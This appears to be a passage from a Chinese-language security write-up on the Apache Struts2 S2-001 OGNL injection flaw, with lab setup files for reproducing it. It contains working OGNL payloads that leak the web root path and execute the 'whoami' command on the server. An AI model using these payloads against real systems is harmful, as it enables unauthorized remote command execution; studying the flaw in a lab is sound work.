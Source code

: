 ~~~
//获取web路径
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
~~~
![1]({{site.baseurl}}/img-post/k-6.png)
![1]({{site.baseurl}}/img-post/k-7.png)
~~~
//命令执行
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
~~~
![1]({{site.baseurl}}/img-post/k-8.png)
![1]({{site.baseurl}}/img-post/k-9.png)
### 漏洞分析
利用idea搭建，需要下载的jar包地址：http://archive.apache.org/dist/struts/binaries/struts-2.0.1-all.zip

导入完成后的结果
![1]({{site.baseurl}}/img-post/k-10.png)
struts.xml
~~~xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">
<struts>
    <package name="S2-001" extends="struts-default">
        <action name="login" class="com.demo.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
        </action>
    </package>
</struts>
~~~
web.xml
~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://xmlns.jcp.org/xml/ns/javaee" xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd" id="WebApp_ID" version="3.1">
    <display-name>S2-001 Example</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.FilterDispatcher</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>index.jsp</welcome-file>
    </welcome-file-list>
</web-app>
~~~
index.jsp
~~~jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
         pageEncoding="UTF-8"%>
<%@ taglib prefix="s" uri="/struts-tags" %>
~~~